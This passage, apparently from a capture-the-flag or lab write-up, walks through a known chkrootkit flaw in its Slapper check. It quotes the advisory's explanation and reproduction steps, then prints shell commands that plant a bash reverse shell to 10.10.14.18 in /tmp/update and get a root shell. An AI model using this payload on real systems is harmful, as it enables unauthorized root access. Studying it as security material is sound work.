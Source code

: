 ```
   for i in ${SLAPPER_FILES}; do
      if [ -f ${i} ]; then
         file_port=$file_port $i
         STATUS=1
      fi
   done
   if [ ${STATUS} -eq 1 ] ;then
      echo "Warning: Possible Slapper Worm installed ($file_port)"
   else
      if [ "${QUIET}" != "t" ]; then echo "not infected"; fi
         return ${NOT_INFECTED}
   fi
}


The line 'file_port=$file_port $i' will execute all files specified in
$SLAPPER_FILES as the user chkrootkit is running (usually root), if
$file_port is empty, because of missing quotation marks around the
variable assignment.

Steps to reproduce:

- Put an executable file named 'update' with non-root owner in /tmp (not
mounted noexec, obviously)
- Run chkrootkit (as uid 0)

Result: The file /tmp/update will be executed as root, thus effectively
rooting your box, if malicious content is placed inside the file.

```
In the for loop in the slapper function, file_port=$file_port $i is not quoted. The end result is bash executing $i, $i being all the files listed in "SLAPPER_FILES", one of which is /tmp/update which I had control over. 

>Note that this will only work if /tmp is not mounted with the noexec option.

I created a the file /tmp/update, added a bash reverse shell to /tmp/uppdate, and when the process ran I received a shell as root

```
echo '#!/bin/bash' > /tmp/update
echo 'bash -i >& /dev/tcp/10.10.14.18/4201 0>&1' >> /tmp/update && chmod +x /tmp/update
```
